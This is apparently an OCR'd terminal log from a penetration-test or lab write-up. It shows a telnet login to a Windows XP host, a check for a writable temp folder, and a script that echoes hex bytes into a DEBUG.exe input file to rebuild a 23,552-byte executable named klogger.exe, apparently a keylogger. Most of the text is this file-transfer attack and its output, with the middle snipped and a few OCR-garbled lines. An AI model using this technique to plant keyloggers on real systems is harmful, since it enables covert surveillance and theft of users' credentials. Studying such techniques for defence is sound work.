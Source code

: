```bash
Connected to 192.168.103.148.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: winxp
password:

*===============================================================
Welcome to Microsoft Telnet Server.
*===============================================================
C:\Documents and Settings\winxp>cd %TEMP%
C:\DOCUME~1\winxp\LOCALS~1\Temp>echo 418671.0>klogger.bat
418671.0E~1\winxp\LOCALS~1\Temp>type klogger.bat

C:\DOCUME~1\winxp\LOCALS~1\Temp>

[i] Writeable folder!

C:\DOCUME~1\winxp\LOCALS~1\Temp>del /F klogger.bat
Runs Debug, a program testing and editing tool.

DEBUG [[drive:][path]filename [testfile-parameters]]

  [drive:][path]filename  Specifies the file you want to test.
  testfile-parameters     Specifies command-line information required by
                          the file you want to test.

After Debug starts, type ? to display a list of debugging commands.

C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 1/382)
if NOT %ERRORLEVEL% == 0 echo &echo &echo &echo **** **** **** **** ****&echo *** Missing DEBUG.exe ***&echo **** **** **** **** ****&exit /b
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 2/382)
echo n klogger.0>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 3/382)
echo e 0100>>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 4/382)
echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 d0 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00>>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 5/382)
echo e 0180>>klogger.hex


...SNIP...

C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 376/382)
move /Y klogger.0 klogger.exe
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 377/382)
echo. >klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 378/382)
del /F /Q klogger.hex klogger.0
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 379/382)
 Volume in drive C has no label.
 Volume Serial Number is 002C-A3B2

 Directory of C:\DOCUME~1\winxp\LOCALS~1\Temp

06/09/2017  10:19 AM            23,552 klogger.exe
               1 File(s)         23,552 bytes
               0 Dir(s)  40,501,571,584 bytes free
```